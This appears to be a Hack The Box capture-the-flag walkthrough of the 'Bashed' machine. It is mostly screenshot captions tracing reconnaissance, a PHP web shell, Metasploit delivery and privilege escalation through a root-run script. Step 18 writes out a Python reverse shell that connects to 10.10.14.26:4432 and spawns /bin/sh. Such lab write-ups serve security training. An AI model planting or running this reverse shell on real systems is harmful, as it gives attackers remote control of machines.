 ```yaml
---
title: "Bashed on Hack The Box"
date: "2020-12-03"
description: ""
coverimage: https://evilsaint.com/media/capture-the-flag/images/bashed/icon_image/bashed_htb.png
tags: htb, bashed, ctf
published: true
platform: Hack The Box
machineauthor: Arrexel
machinelevel: Easy
machineos: Linux
machineurl: https://app.hackthebox.eu/machines/Bashed
---
```

<h5 class="step">1 Initial Nmap Scan</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="59862a89-3865-4a4e-90ca-a91760f02714.png" class="img-fluid" alt="Initial NMAP scan">
<figcaption class="figure-caption text-center fw-normal text-dark">Initial NMAP scan.</figcaption>
</figure>

<h5 class="step">2 Nmap Follow Scan all HTTP Scripts</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="a17fd479-7fa2-4648-8054-e03dfd52feaa.png" class="img-fluid" alt="Nmap Follow Scan all HTTP Scripts">
<figcaption class="figure-caption text-center fw-normal text-dark">Nmap Follow Scan all HTTP Scripts.</figcaption>
</figure>

<h5 class="step">3 Apache 2.4.18 on Ubuntu</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="2609bdc9-db65-403d-b59b-64a53eff3872.png" class="img-fluid" alt="Apache 2.4.18 on Ubuntu">
<figcaption class="figure-caption text-center fw-normal text-dark">Apache 2.4.18 on Ubuntu.</figcaption>
</figure>


<h5 class="step">4 DEV Path</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="fa88a3bb-f4ba-48c0-841b-b7f8445dd204.png" class="img-fluid" alt="DEV Path">
<figcaption class="figure-caption text-center fw-normal text-dark">DEV Path.</figcaption>
</figure>



<h5 class="step">5 PHP Bash Shell</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="cf425f0d-2460-4ee0-9cbf-4c1feffdb9f2.png" class="img-fluid" alt="PHP Bash Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">PHP Bash Shell.</figcaption>
</figure>


<h5 class="step">6 Enumeration</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="c398a0b5-0410-4097-8767-0e80b7425f9e.png" class="img-fluid" alt="Enumeration">
<figcaption class="figure-caption text-center fw-normal text-dark">Enumeration.</figcaption>
</figure>


<h5 class="step">7 Create Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="0721dbe3-1383-4b3f-bb45-d47fddbd3d23.png" class="img-fluid" alt="Create Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">Create Shell.</figcaption>
</figure>


<h5 class="step">8 Host Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="3fd8b6d2-f218-44ab-be6e-a37f00bf128c.png" class="img-fluid" alt="Host Shell"></h5>
<figcaption class="figure-caption text-center fw-normal text-dark">Host Shell.</figcaption>
</figure>

<h5 class="step">9 Web Delivery Metasploit</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="07224f64-52f0-41b5-bd31-d06ec87d06f8.png" class="img-fluid" alt="Web Delivery Metasploit">
<figcaption class="figure-caption text-center fw-normal text-dark">Web Delivery Metasploit.</figcaption>
</figure>


<h5 class="step">10 Upgrade-metasploit-meterpreter</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="cd810c67-172a-4cd8-9c85-fb6ec5b75197.png" class="img-fluid" alt="Upgrade-metasploit-meterpreter">
<figcaption class="figure-caption text-center fw-normal text-dark">Upgrade-metasploit-meterpreter.</figcaption>
</figure>


<h5 class="step">11 Enumerate</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="33f8e494-7f47-4e71-bec4-b33c873f8770.png" class="img-fluid" alt="Enumerate">
<figcaption class="figure-caption text-center fw-normal text-dark">Enumerate.</figcaption>
</figure>


<h5 class="step">12 Sudo -l</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="d1e4b1e4-29f9-4b79-a775-54096d7b09c8.png" class="img-fluid" alt="Sudo -l">
<figcaption class="figure-caption text-center fw-normal text-dark">Sudo -l.</figcaption>
</figure>


<h5 class="step">13 TTY Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="9113ff77-4e0e-49ae-8c32-7d3747ae2eb3.png" class="img-fluid" alt="TTY Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">TTY Shell.</figcaption>
</figure>


<h5 class="step">14 Files-Owned-By-Scriptmanager</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="15c8cd1a-0aee-4a1b-9d4e-2d3ff7373242.png" class="img-fluid" alt="Files-Owned-By-Scriptmanager">
<figcaption class="figure-caption text-center fw-normal text-dark">Files-Owned-By-Scriptmanager.</figcaption>
</figure>


<h5 class="step">15 File Fun By Root</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="d53ee8c9-cf63-4dc2-b260-d022db0902f6.png" class="img-fluid" alt="File Fun By Root">
<figcaption class="figure-caption text-center fw-normal text-dark">File Fun By Root.</figcaption>
</figure>


<h5 class="step">16 Spawn Shell As Scriptmanager</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="a0003e41-6f89-409f-af41-c6fb5ab9c746.png" class="img-fluid" alt="Spawn Shell As Scriptmanager">
<figcaption class="figure-caption text-center fw-normal text-dark">Spawn Shell As Scriptmanager.</figcaption>
</figure>


<h5 class="step">17 Content Discovery</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="ec5f1398-7837-485b-8713-ee5eaaff6f5d.png" class="img-fluid" alt="Content Discovery">
<figcaption class="figure-caption text-center fw-normal text-dark">Content Discovery.</figcaption>
</figure>



<h5 class="step">18</h5>

```
echo 'import socket,subprocess,os' > test.py echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py echo 's.connect(("10.10.14.26",4432)) ' >> test.py echo 'os.dup2(s.fileno(),0)' >> test.py echo 'os.dup2(s.fileno(),1)' >> test.py echo 'os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py 
```

<h5 class="step">19 Got Root</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="27fae913-299a-4eae-aa07-790fa64d219a.png" class="img-fluid" alt="Got Root">
<figcaption class="figure-caption text-center fw-normal text-dark">Got Root.</figcaption>
</figure>


<h5 class="step">20 Overide Test Py</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="026ce1c5-4b48-4415-a6af-f7ff37cbc7e4.png" class="img-fluid" alt="Overide Test Py">
<figcaption class="figure-caption text-center fw-normal text-dark">Overide Test Py.</figcaption>
</figure>